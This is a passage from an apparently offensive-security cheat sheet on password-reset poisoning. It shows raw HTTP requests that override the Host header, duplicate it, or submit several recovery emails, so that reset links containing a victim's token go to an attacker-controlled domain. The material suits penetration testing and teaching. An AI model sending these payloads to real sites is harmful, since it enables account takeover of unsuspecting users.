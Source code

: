 ### Override Host header

Components in a delivery chain, such as proxies, can pass an original host requested by the client using additional of HTTP headers:

{% embed url="https://gist.github.com/0xn3va/b8ffb5c43d8dc24cdfcfc98e1890d71f" %}

You can try to use these headers for identifying the original host requested by the client in the `Host` request header:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
x-forwarded-host: attacker-website.com
x-host: attacker-website.com
x-original-host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

References:

- [Write up: Account Takeover Through Password Reset Poisoning](https://medium.com/@vbharad/account-takeover-through-password-reset-poisoning-72989a8bb8ea)

### Several Host header

You can try to specify several `Host` headers. Example of vulnerable request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Host: attacker-website.com
Content-Type: application/json
Content-Length: 31

{"email": "victim@website.com"}
```

## Several email addresses

Password recovery method can accept multiple recovery emails in one request. However, the method can search for an account to create a one-time token based on only one email, but send an email with a recovery link to all passed emails at once. For instance, if an application is vulnerable to such an attack, on the following request:

```http
POST /users/password HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/json
Content-Length: 57

{"email": ["victim@website.com", "attacker@website.com"]}
```
